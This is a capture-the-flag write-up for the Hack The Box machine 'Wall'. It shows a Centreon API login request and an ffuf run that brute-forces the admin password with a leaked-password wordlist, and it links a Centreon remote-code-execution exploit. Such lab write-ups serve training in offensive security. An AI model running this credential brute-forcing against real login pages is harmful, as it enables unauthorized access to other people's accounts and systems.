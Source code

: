 ## Wall machine on HTB
### URL: https://app.hackthebox.com/machines/208
### Difficulty: Medium

## Solution:
### Usage of weak login credentials at http://10.10.10.157/centreon/api/index.php?action=authenticate
**Example Request:**
```
POST /centreon/api/index.php?action=authenticate HTTP/1.1
Host: 10.10.10.157
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=admin&password=FUZZ
```
**Fuzzing the login creds:**
```
soliman@Legion:~/wordlists$ ffuf --request req  -request-proto http -w darkweb2017_top-1000.txt -fc 403

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.10.157/centreon/api/index.php?action=authenticate
 :: Wordlist         : FUZZ: /home/soliman/wordlists/darkweb2017_top-1000.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Referer: http://10.10.10.157/monitoring/
 :: Header           : Cookie: PHPSESSID=j911vsfkqqhaneih1orsj8uikt
 :: Header           : Priority: u=0, i
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Connection: close
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Host: 10.10.10.157
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

password1               [Status: 200, Size: 60, Words: 1, Lines: 1, Duration: 160ms]
:: Progress: [999/999] :: Job [1/1] :: 213 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
soliman@Legion:~/wordlists$
```


### References: 
#### Centreon 19.04 - Remote Code Execution: https://www.exploit-db.com/exploits/47069
